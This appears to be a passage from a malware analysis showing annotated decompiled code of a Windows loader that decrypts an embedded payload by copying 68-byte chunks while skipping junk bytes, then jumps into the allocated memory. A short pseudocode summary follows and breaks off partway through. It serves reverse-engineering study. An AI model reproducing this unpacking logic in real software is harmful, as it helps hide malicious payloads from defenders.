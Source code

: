 ```bash
{
  unsigned int v1; // [esp+4h] [ebp-14h]
  int v2; // [esp+10h] [ebp-8h]
  int savedregs; // [esp+18h] [ebp+0h] BYREF

  if ( LoadCursorA(0, (LPCSTR)0x142D) )
    sub_401130();
  v2 = ((int (__cdecl *)(WCHAR *, int, int, _DWORD, int, int, _DWORD))CreateFileW)(word_4CA044, 1, 3, 0, 3, 128, 0);
  if ( v2 == -1 || !v2 )
  {
    CreateFileW(word_4CA044, 1u, 3u, 0, 3u, 0x80u, 0);
    GetDriveTypeW(&RootPathName);
    if ( LoadCursorA(0, (LPCSTR)0x142D) )
      sub_401130();
    dword_4CA0BC = a1;
    dword_4CA09C = (int)&savedregs;
    dword_4CA080 = 131100;
    get_RegOpenKeyA_addr();
    v1 = 0;
    subkey[5] = 92;                             // \
    subkey[6] = 123;                            // {

    if ( RegOpenKeyA_addr(HKEY_CURREN_USER - 1, subkey, &hKey) )
    {
      while ( v1 <= 0xE && RegOpenKeyA_addr(HKEY_CURREN_USER - 1, subkey, &hKey) )
        ++v1;
    }
    mal_addr = (int)get_mal_addr();
    mal_size = read_size_prefix(mal_addr);
    allocated_addr = (int)allocate_memory(mal_size);
    mal_size_ = mal_size;
    wb_counter = 0;                             // written bytes counter
    offset_counter = 0;                         // read offset into mal_addr
    while ( 1 )                                 // decrypt loop
    {
      min(chunk, mal_size_);
      min(chunk, mal_size_);
      if ( wb_counter >= (unsigned int)mal_size )
        break;
      min(chunk, mal_size_);
      chunk = 68;
      junk_bytes = 31;
      dword_4CA08C = min(0x44u, mal_size_);
      dword_4CA0C0 = wb_counter + allocated_addr;
      memcpy(wb_counter + allocated_addr, offset_counter + mal_addr, dword_4CA08C);
      offset_counter += chunk + junk_bytes;
      wb_counter += chunk;
      mal_size_ -= dword_4CA08C;
    }
    decryption_shellcode(allocated_addr, mal_size);
    entry_point = allocated_addr + 0x86ED0;
    sub_401130();
  }
}
```
- or in pseudo code
```bash
// Step 1: get payload from registry
uint8_t *mal_addr = get_mal_addr();
size_t payload_size = read_size_prefix(mal_addr);

// Step 2: allocate buffer
```